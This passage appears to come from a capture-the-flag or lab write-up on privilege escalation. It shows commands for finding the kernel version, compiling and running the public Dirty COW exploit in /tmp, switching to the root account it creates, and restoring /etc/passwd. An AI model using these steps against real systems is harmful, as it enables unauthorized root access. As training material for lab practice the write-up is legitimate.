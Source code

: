 # ALTERNATIVE PRIV ESC

Once we are in the system as the user ```www-data```, we can check the kernel version using the following command 

```
uname -a
```

After a short search, we find that there are some kernel exploits which could work here. One of them is Dirty COW, we will use this one https://github.com/firefart/dirtycow

We compile it using the following command

```
cd /tmp && gcc -pthread dirty.c -o dirty -lcrypt && ./dirty rootpass
```

We log in as root (now named firefart)

```
su firefart
```

```
mv /tmp/passwd.bak /etc/passwd
```

```
id
```
